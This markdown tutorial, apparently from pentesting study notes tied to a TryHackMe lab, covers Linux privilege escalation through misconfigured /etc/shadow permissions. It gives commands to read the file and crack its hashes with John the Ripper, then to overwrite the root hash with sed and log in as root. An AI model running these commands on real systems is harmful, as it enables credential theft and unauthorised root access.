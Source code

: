 ```yaml
---
legal-banner: true
---
```


### **Overview of /etc/shadow Vulnerabilities**

The /etc/shadow file that stores password hashes that are only accessible by the root user under normal circumstances. Misconfigurations in this file's permissions can lead to severe security breaches.

Practice Machine : https://tryhackme.com/r/room/linuxprivescarena

### **Scenario 1: Cracking Password Hashes**

If /etc/shadow is readable due to misconfigured permissions, attacker can extract and crack password hashes.

1.  Verify if the /etc/shadow is readable.  
    `ls -l /etc/shadow`  
    
    ![](../../../img/Linux-Environment/144.png)
    
2.  Using LinPEAS.sh you can also find  about this vulnerability being present.  
    `./linpeas.sh`  
    
    ![](../../../img/Linux-Environment/145.png)
    
3.  Having the ability to read /etc/shadow, we can copy the contents of it, and then, crack the hashes using john  
    `cat /etc/shadow`  
    
    ![](../../../img/Linux-Environment/146.png)
    
4.  Copy the contents of it into your own machine, or use any type of file transfer method you prefer.  
    `echo 'HASH' > shadow.hash`
    
5.  Use a password cracker like John the Ripper.  
    `john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt shadow.hash`
    

### **Scenario 2: Replacing the Root Password Hash**

If /etc/shadow is writable, an attacker can replace the root password hash with a known one.

1.  Ensure the file is incorrectly writable.  
    `ls -l /etc/shadow`
    
2.  Generate a new hash for a known password.  
    `mkpasswd -m sha-512 newpassword`  
    
    ![](../../../img/Linux-Environment/147.png)
    
3.  Create a backup of the /etc/shadow file  

    ![](../../../img/Linux-Environment/148.png)
    
4.  Copy the output hash, and, replace the root hash with our new hash  
    `Before`  
    
    ![](../../../img/Linux-Environment/149.png)

    `After`  
    
    ![](../../../img/Linux-Environment/150.png)
    
5.  You can use sed command to create a whole new line  
    `sed 's/^root:[^:]*:/root:[HASH]:/g' /etc/shadow | grep [USER]`  

    ![](../../../img/Linux-Environment/151.png)

    `sed 's/^root:[^:]*:/root:$6$kIW2RPXnEttDUn1y$7VCgKvZGaJhS06zJZfWbcGbybqDaynTQMnpZjFjrFcLy9KJ\/97pxQXM5ASSssIUV\/Vydx8QSWJkUPH0tvqoVH\/:/g' /etc/shadow | grep root`
    
6.  Now we can log in as root  
    `ssh root@[IP-ADRESS]`  
    
    ![](../../../img/Linux-Environment/152.png)